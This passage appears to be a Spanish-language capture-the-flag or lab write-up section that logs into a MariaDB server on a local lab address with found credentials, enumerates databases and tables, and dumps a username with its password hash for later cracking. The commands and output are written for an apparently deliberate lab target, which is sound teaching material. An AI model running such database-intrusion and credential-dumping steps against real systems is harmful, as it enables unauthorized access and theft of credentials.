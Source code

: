 ### Ejecucion del Ataque
```bash
# Comandos para explotación
mysql -u capybara -h 172.17.0.2 -ppassword1 --skip-ssl
```

Ahora que ganamos acceso a la base de datos procedemos a enumerar posibles **usuarios** y **contrasenas** validas para ganar acceso al servidor
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| beta               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

Ahora nos cambiamos de base de datos a **beta**
```bash
MariaDB [(none)]> use beta;
```

Revisamos las tablas para esta base de datos:
```bash
MariaDB [beta]> show tables;
+----------------+
| Tables_in_beta |
+----------------+
| registraton    |
+----------------+
```

Revisamos la estructura de la base de datos:
```bash
MariaDB [beta]> desc registraton;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| id       | int(11)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(50)  | NO   |     | NULL    |                |
| password | varchar(255) | NO   |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
```

Ahora nos aprovechamos de esto para ver el campo **username** y el campo **password**, En caso de que este cifrada la informacion tendremos que aplicar fuerza bruta para romper el cifrado.
```bash
select username, password from registraton;
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| balulero | 520d3142a140addb8be7d858a7e29e15 |
+----------+----------------------------------+
```
